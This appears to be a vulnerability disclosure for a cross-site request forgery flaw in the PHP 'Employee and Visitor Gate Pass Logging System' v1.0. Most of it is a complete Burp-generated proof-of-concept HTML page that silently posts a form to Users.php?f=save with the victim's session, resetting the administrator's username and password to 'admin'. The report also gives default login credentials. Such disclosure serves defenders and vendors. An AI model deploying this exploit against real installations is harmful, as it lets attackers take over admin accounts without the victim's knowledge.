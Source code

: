 CSRF exists in the Employee and Visitor Gate Pass Logging System

official website:https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

version:v1.0

route：/employee_gatepass/classes/Users.php?f=save

related code file：Users.php

related_function：save_users()


#### 1.Vulnerability verification and exploit

We need log in to the system backend as admin/admin123.The exploit proof-of-concept (PoC) for this vulnerability is as follows. When using it, you need to modify the relevant address information in the PoC according to the target environment, such as the host and refer fields.

CSRF POC
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/localhost\/employee_gatepass\/classes\/Users.php?f=save", true);
        xhr.setRequestHeader("Accept", "*\/*");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------335150987041500703933530809940");
        xhr.withCredentials = true;
        var body = "-----------------------------335150987041500703933530809940\r\n" + 
          "Content-Disposition: form-data; name=\"id\"\r\n" + 
          "\r\n" + 
          "1\r\n" + 
          "-----------------------------335150987041500703933530809940\r\n" + 
          "Content-Disposition: form-data; name=\"firstname\"\r\n" + 
          "\r\n" + 
          "Adminstrator\r\n" + 
          "-----------------------------335150987041500703933530809940\r\n" + 
          "Content-Disposition: form-data; name=\"lastname\"\r\n" + 
          "\r\n" + 
          "Admin\r\n" + 
          "-----------------------------335150987041500703933530809940\r\n" + 
          "Content-Disposition: form-data; name=\"username\"\r\n" + 
          "\r\n" + 
          "admin\r\n" + 
          "-----------------------------335150987041500703933530809940\r\n" + 
          "Content-Disposition: form-data; name=\"password\"\r\n" + 
          "\r\n" + 
          "admin\r\n" + 
          "-----------------------------335150987041500703933530809940\r\n" + 
          "Content-Disposition: form-data; name=\"img\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "-----------------------------335150987041500703933530809940--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
```

The victim can click on the created page to modify the current victim's password without knowing it.


<img width="1709" alt="image" src="https://github.com/Xu-Mingming/cve/assets/172484755/ff21a587-7146-4cb1-9cd3-8d108dcae86c">


